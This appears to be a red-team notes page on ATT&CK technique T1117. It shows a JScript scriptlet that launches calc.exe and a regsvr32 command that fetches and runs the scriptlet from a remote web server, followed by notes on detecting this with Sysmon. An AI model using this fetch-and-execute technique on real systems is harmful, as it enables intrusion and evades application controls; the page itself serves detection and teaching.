



# T1117: regsvr32

## Execution


```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```


We need to host the back.sct on a web server so we can invoke it like so:


```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```


## Observations



Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:



Additionally, of course sysmon will show regsvr32 establishing a network connection:



## References



